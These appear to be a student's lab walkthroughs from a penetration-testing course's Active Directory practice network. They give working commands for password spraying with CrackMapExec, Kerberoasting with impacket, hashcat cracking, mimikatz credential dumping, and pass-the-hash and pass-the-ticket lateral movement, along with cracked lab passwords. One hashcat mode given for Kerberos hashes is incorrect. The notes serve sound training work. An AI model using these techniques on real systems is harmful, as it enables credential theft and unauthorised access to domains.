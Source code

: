 # Random Walkthrough - One
**Section 22.2.5**

#### CrackMapExec (NetExec):

Spraying the password against all the IPs in the domain.

```zsh
# provide a hosts.txt file or an ip-range with the '-' character
cme 192.168.216.70-75 -u users.txt -p passwords.txt -d corp.com --continue-on-success
```

```text
# OUTPUT

SMB         192.168.216.73  445    FILES04          [+] corp.com\meg:VimForPowerShell123! 
SMB         192.168.216.72  445    WEB04            [+] corp.com\meg:VimForPowerShell123! 
SMB         192.168.216.70  445    DC1              [+] corp.com\meg:VimForPowerShell123! 
SMB         192.168.216.74  445    CLIENT74         [+] corp.com\meg:VimForPowerShell123! 
SMB         192.168.216.75  445    CLIENT75         [+] corp.com\meg:VimForPowerShell123! 
```

Once we know that `meg:VimForPowerShell123!` has access on DC1 (192.168.216.70), we can use `impacket's GetUserSPNs.py` to dump hashes:

```bash
impacket-GetUserSPNs -outputfile hashes.krb -dc-ip 192.168.216.70 'corp.com/meg:VimForPowerShell123!'
```

We can cat out the `hashes.krb` to get the hashes now which we can use for cracking.

```bash
hashcat -a 0 -m 1000 hashes /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/append1.rule # 1000 for NTLM
```

Finally, spray the new passwords with CME like we did before, but update the passwords file. This time we could see that 

```text
SMB         192.168.216.70  445    DC1              [+] corp.com\backupuser:DonovanJadeKnight1 (Pwn3d!)
```

DC1 has been pwned using the Donovan password and the backupuser. Which means we can get System32 access on the DC.

---

# Random Walkthrough - Two
**Section 23.2.2 Capstone Exercise 4 - Playing with Tickets**

Logged into the system as the 'leon' user, ran the `klist` command. 

The `klist` command shows that there is a cached ticket for user `dave` on `web04` which means that he has an account on `web04`.
Next we open up mimikatz and perform a pass the hash attack from current user `jeffadmin` to user `dave` on domain `corp.com`.

**Step 1**
```powershell
# dump hashes & find an entry for user dave
.\mimikatz.exe
sekurlsa::logonpasswords
# or
lsadump::sam
# once ntlm hash for dave is found, perfrom a pass the hash
sekurlsa::pth /user:dave /domain:corp.com /ntlm:[DAVE_NTLM]
```
**Step 2**
```powershell
# in the new shell try to use the web04 share since dave has access to it.
net use \\web04 # just to poke it. The output will say command completed successfully.
net view \\web04 # will list the contents of the share. Output will say \backup
dir \\web04\backup\ # can also use 'ls' but dir is used in cmd
type \\web04\backup\file.txt # to view the contents of the file. Can also use 'cat' or 'Get-Content'
copy \\web04\backup\file.txt output_file.txt # to copy and save the contents in the CWD.
```

---

# Random Walkthrough - Three
**Section 23.2.2 Capstone Exercise 3 - Lateral Movement to Files04**
Joined `client74` as `leon` with the password `HomeTaping199!`. 
Listed out a bunch of users with the `net user /domain` command to see what users are available.

Created a `users.txt` file on kali machine to create a list of domain users & created a `passwords.txt` file to enter the one password I have -  `HomeTaping199!`.
Used CrackMapExec (now NetExec) to see if this password is reused on any other machine from the domain -
```bash
cme 192.168.237.70-76 -u users -p passwords -d corp.com --continue-on-success | grep -i '[+]' # to filter only important results
```

```text
SMB         192.168.237.74  445    CLIENT74         [+] corp.com\leon:HomeTaping199! (Pwn3d!)
SMB         192.168.237.76  445    CLIENT76         [+] corp.com\leon:HomeTaping199! 
SMB         192.168.237.75  445    CLIENT75         [+] corp.com\leon:HomeTaping199! 
SMB         192.168.237.72  445    WEB04            [+] corp.com\leon:HomeTaping199! 
SMB         192.168.237.73  445    FILES04          [+] corp.com\leon:HomeTaping199! (Pwn3d!)
SMB         192.168.237.70  445    DC1              [+] corp.com\leon:HomeTaping199! 
```

This password has been used by `leon` on a bunch of other systems. Take a note of this, and move on. Also, he has admin rights on `files04` & `client74`.

On `client74` enter mimikatz and export all the tickets using the `sekurlsa::tickets /export` command and find the ticket in the CWD that has some association with `files04` or the user `leon`.
Pass this ticket and get a command shell with more privs.
```powershell
kerberos::ptt [0;27c4c3]-0-0-40a10000-leon@cifs-files04.kirbi
misc::cmd
```

In the resulting shell, view the contents of the files and get `proof.txt`.

- A big thing to note here, is that upon re-doing the machine, it was found that I didn't really have to pass the ticket or the hash. Just knowing through `cme` that `leon` has admin privs on `files04` was enough. I just had to list the file share with `net view \\files04` and get the flag from `type \\files04\backup\C:\Users\Administrator\Desktop\proof.txt`.

---

# Random Walkthrough - Four